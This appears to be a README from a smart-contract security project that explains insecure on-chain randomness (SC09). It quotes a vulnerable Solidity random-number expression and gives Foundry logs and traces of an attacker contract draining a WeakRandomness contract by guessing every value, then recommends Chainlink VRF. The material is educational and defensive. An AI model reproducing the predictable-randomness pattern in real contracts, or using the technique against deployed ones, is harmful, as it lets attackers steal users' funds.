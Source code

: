 # SC09 - Insecure Randomness

Due to the deterministic nature of blockchain networks, generating secure randomness is challenging. Predictable or manipulable randomness can lead to exploitation in lotteries, token distributions, or other randomness-dependent functionalities.


In this scenario, we are dealing a Random Number Generator that uses `msg.sender`, `block.timestamp`, `block.prevrandao` and the previous block's `blockhash` to calculate a random number. You'd think this would be safe since we keep creating blocks with each transaction. However, the Blockchain is meant to be as transparent as possible, therefore, anyone could obtain all of these parameters used for getting the random number and that exactly makes it a weak randomness:
```javascript
uint256 randomNumber = uint256(keccak256(abi.encodePacked(msg.sender,block.timestamp,block.prevrandao,blockhash(block.number - 1))));
```


Simply an attacker can predict/obtain all of these parameters used for the generation of the random number, and make a correct guess each and every single time allowing him to absorb all the funds from the contract as we can see in the example below where I made a test simulating what I was just explaining with a new block and different data for each guess:
```javascript
Logs:
  guessed number: 49356039924657821959673000732456498394787809883226174800379949881564284864642
  random number: 49356039924657821959673000732456498394787809883226174800379949881564284864642
  entered
  guessed number: 96699212057113736958882739752209563968683413927149075965354076509789084162105
  random number: 96699212057113736958882739752209563968683413927149075965354076509789084162105
  entered
  guessed number: 87143961526076910101192125243346453756248698383586412687473051794627090126051
  random number: 87143961526076910101192125243346453756248698383586412687473051794627090126051
  entered
  guessed number: 61581776140332308084219501542418856096495794070990655219494790181679509889945
  random number: 61581776140332308084219501542418856096495794070990655219494790181679509889945
  entered
  guessed number: 56712033122233074682164158805050754244224922143731170028606842770132904362560
  random number: 56712033122233074682164158805050754244224922143731170028606842770132904362560
  entered

Traces:
  [94570] WorkflowTest::testAttackerCanGuessNumberCorrectlyEachTime()
    ├─ [0] VM::assertEq(5000000000000000000 [5e18], 5000000000000000000 [5e18]) [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return]
    ├─ [16012] Attacker::Steal(WeakRandomness: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f])
    │   ├─ [0] console::log("guessed number:", 49356039924657821959673000732456498394787809883226174800379949881564284864642 [4.935e76]) [staticcall]
    │   │   └─ ← [Stop]
    │   ├─ [10468] WeakRandomness::guessRandomNumber(49356039924657821959673000732456498394787809883226174800379949881564284864642 [4.935e76])
    │   │   ├─ [0] console::log("random number:", 49356039924657821959673000732456498394787809883226174800379949881564284864642 [4.935e76]) [staticcall]
    │   │   │   └─ ← [Stop]
    │   │   ├─ [0] console::log("entered") [staticcall]
    │   │   │   └─ ← [Stop]
    │   │   ├─ [55] Attacker::receive{value: 1000000000000000000}()
    │   │   │   └─ ← [Stop]
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [0] VM::assertEq(4000000000000000000 [4e18], 4000000000000000000 [4e18]) [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::assertEq(1000000000000000000 [1e18], 1000000000000000000 [1e18]) [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::roll(2)
    │   └─ ← [Return]
    ├─ [13512] Attacker::Steal(WeakRandomness: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f])
    │   ├─ [0] console::log("guessed number:", 96699212057113736958882739752209563968683413927149075965354076509789084162105 [9.669e76]) [staticcall]
    │   │   └─ ← [Stop]
    │   ├─ [10468] WeakRandomness::guessRandomNumber(96699212057113736958882739752209563968683413927149075965354076509789084162105 [9.669e76])
    │   │   ├─ [0] console::log("random number:", 96699212057113736958882739752209563968683413927149075965354076509789084162105 [9.669e76]) [staticcall]
    │   │   │   └─ ← [Stop]
    │   │   ├─ [0] console::log("entered") [staticcall]
    │   │   │   └─ ← [Stop]
    │   │   ├─ [55] Attacker::receive{value: 1000000000000000000}()
    │   │   │   └─ ← [Stop]
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [0] VM::roll(3)
    │   └─ ← [Return]
    ├─ [13512] Attacker::Steal(WeakRandomness: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f])
    │   ├─ [0] console::log("guessed number:", 87143961526076910101192125243346453756248698383586412687473051794627090126051 [8.714e76]) [staticcall]
    │   │   └─ ← [Stop]
    │   ├─ [10468] WeakRandomness::guessRandomNumber(87143961526076910101192125243346453756248698383586412687473051794627090126051 [8.714e76])
    │   │   ├─ [0] console::log("random number:", 87143961526076910101192125243346453756248698383586412687473051794627090126051 [8.714e76]) [staticcall]
    │   │   │   └─ ← [Stop]
    │   │   ├─ [0] console::log("entered") [staticcall]
    │   │   │   └─ ← [Stop]
    │   │   ├─ [55] Attacker::receive{value: 1000000000000000000}()
    │   │   │   └─ ← [Stop]
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [0] VM::roll(4)
    │   └─ ← [Return]
    ├─ [13512] Attacker::Steal(WeakRandomness: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f])
    │   ├─ [0] console::log("guessed number:", 61581776140332308084219501542418856096495794070990655219494790181679509889945 [6.158e76]) [staticcall]
    │   │   └─ ← [Stop]
    │   ├─ [10468] WeakRandomness::guessRandomNumber(61581776140332308084219501542418856096495794070990655219494790181679509889945 [6.158e76])
    │   │   ├─ [0] console::log("random number:", 61581776140332308084219501542418856096495794070990655219494790181679509889945 [6.158e76]) [staticcall]
    │   │   │   └─ ← [Stop]
    │   │   ├─ [0] console::log("entered") [staticcall]
    │   │   │   └─ ← [Stop]
    │   │   ├─ [55] Attacker::receive{value: 1000000000000000000}()
    │   │   │   └─ ← [Stop]
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [0] VM::roll(5)
    │   └─ ← [Return]
    ├─ [13512] Attacker::Steal(WeakRandomness: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f])
    │   ├─ [0] console::log("guessed number:", 56712033122233074682164158805050754244224922143731170028606842770132904362560 [5.671e76]) [staticcall]
    │   │   └─ ← [Stop]
    │   ├─ [10468] WeakRandomness::guessRandomNumber(56712033122233074682164158805050754244224922143731170028606842770132904362560 [5.671e76])
    │   │   ├─ [0] console::log("random number:", 56712033122233074682164158805050754244224922143731170028606842770132904362560 [5.671e76]) [staticcall]
    │   │   │   └─ ← [Stop]
    │   │   ├─ [0] console::log("entered") [staticcall]
    │   │   │   └─ ← [Stop]
    │   │   ├─ [55] Attacker::receive{value: 1000000000000000000}()
    │   │   │   └─ ← [Stop]
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::assertEq(5000000000000000000 [5e18], 5000000000000000000 [5e18]) [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]

```


# Mitigation 

The most general advice in this case is to just avoid using predictable values that can be obtained from the blockchain for random number generation. I would also recommend using [Chainlink's VRF (Verifiable Random Function)](https://docs.chain.link/vrf) as I have personally used this and can vouch for it! Will also make a project using it in the near future inshalah ;) 